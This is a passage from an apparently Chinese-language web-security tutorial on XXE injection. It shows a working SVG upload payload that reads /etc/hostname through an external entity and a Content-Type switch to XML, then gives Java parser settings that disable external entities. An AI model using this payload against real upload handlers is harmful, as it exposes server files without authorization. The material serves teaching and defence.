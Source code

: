 ### 文件上传
除了常见的XML,DOC文件上传可能触发XXE以外,svg文件也可能,在大部分上传图片时,后端图片处理库往往也解析svg文件,而svg同时也是XML结构的文件.  
svg文件内容:  
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
### 修改content type
有些后端会根据content type来解析不同的数据包,修改content type为xml格式时,同样也能解析数据.
```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
修改为  
```http
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
## XXE Tools
[oxml_xxe](https://github.com/BuffaloWill/oxml_xxe)
## 修复方案
配置相关FEATURE来禁用外部实体。
```java
"http://apache.org/xml/features/disallow-doctype-decl", true //禁止DOCTYPE 声明
"http://apache.org/xml/features/nonvalidating/load-external-dtd", false //禁止导入外部dtd文件
"http://xml.org/sax/features/external-general-entities", false //禁止外部普通实体
"http://xml.org/sax/features/external-parameter-entities", false //禁止外部参数实体
```
```java
XMLConstants.ACCESS_EXTERNAL_DTD, ""
XMLConstants.ACCESS_EXTERNAL_STYLESHEET, ""
```
## 参考资料
https://portswigger.net/web-security/xxe
